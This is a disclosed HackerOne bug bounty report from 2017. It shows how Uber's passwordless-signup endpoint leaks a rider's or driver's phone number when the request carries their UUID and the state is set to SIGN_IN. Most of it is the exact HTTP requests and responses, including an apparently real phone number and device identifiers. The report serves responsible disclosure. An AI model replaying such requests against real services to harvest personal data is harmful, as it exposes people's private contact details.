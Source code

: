 # phone number exposure for riders/drivers given email/uuid

## Report Details
- **Report ID**: 225243
- **URL**: https://hackerone.com/reports/225243
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2017-05-01T05:59:52.523Z
- **Disclosed**: 2017-06-02T17:56:43.085Z

## Reporter
- **Username**: vijay_kumar
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: uber

## Vulnerability Information
Hi ,
## Summary
I have found one more vulnerable endpoint that is leaking user's phone number when i submit UUID in the request. This attack works for both Driver and Rider.

## Security Impact
We can get any Rider or Driver private phone number by knowing his UUID.

## Reproduction Steps
1 . Enter victim's UUID in loginId and replay the following request.

__Request:__
```
POST /rt/users/passwordless-signup HTTP/1.1
Content-Type: application/json; charset=UTF-8
Host: cn-dca1.uber.com
Connection: Keep-Alive
Accept-Encoding: gzip
User-Agent: okhttp/12.7.2
Content-Length: 663

{
    "commonData": {
        "appName": "client",
        "deviceIMEI": "541127718435990",
        "deviceId": "6f4b8fed46dce6b5cc77f67d19adc2f2",
        "deviceMobileCountryCode": "in",
        "deviceMobileDigits": "",
        "deviceModel": "HM NOTE 1LTE",
        "deviceOS": "4.4.4",
        "deviceSerialNumber": "2f1e6fa",
        "version": "3.134.5",
        "language": "en_US",
        "latitude": 0.0,
        "longitude": 0.0,
        "epoch": 1484671747392
    },
    "mobileCountryISO2": "IN",
    "loginId": "ee497b97-bc85-4687-b20b-ecf352a590c2",
    "state": "NOT_STARTED",
    "userRole": "client",
    "userWorkflow": "PASSWORDLESS_SIGNUP"
}
```

__Response:__

```
{
	"loginId": "",
	"serverState": "SIGN_IN",
	"tripVerifyStateData": {},
	"userMessage": null,
	"userRole": "client",
	"userWorkflow": "PASSWORDLESS_SIGNUP"
}
```

2 . Now change state to __SIGN_IN__ in the request and replay .

__Request:__

```
POST /rt/users/passwordless-signup HTTP/1.1
Content-Type: application/json; charset=UTF-8
Host: cn-dca1.uber.com
Connection: Keep-Alive
Accept-Encoding: gzip
User-Agent: okhttp/12.7.2
Content-Length: 659

{
    "commonData": {
        "appName": "client",
        "deviceIMEI": "541127718435990",
        "deviceId": "6f4b8fed46dce6b5cc77f67d19adc2f2",
        "deviceMobileCountryCode": "in",
        "deviceMobileDigits": "",
        "deviceModel": "HM NOTE 1LTE",
        "deviceOS": "4.4.4",
        "deviceSerialNumber": "2f1e6fa",
        "version": "3.134.5",
        "language": "en_US",
        "latitude": 0.0,
        "longitude": 0.0,
        "epoch": 1484671747392
    },
    "mobileCountryISO2": "IN",
    "loginId": "ee497b97-bc85-4687-b20b-ecf352a590c2",
    "state": "SIGN_IN",
    "userRole": "client",
    "userWorkflow": "PASSWORDLESS_SIGNUP"
}
```

__Response:__

```
{
	"errorCode": "INVALID_REQUEST",
	"errorMessage": "Client should never call backend with this state.",
	"phoneNumberE164": "+919899665409",
	"serverState": "FAILED",
	"userMessage": "The client request has invalid parameters. Please update your app and retry.",
	"userWorkflow": "PASSWORDLESS_SIGNUP"
}
```

You will see Victim's private phone number in the response.

Thank you


## Attachments
No attachments
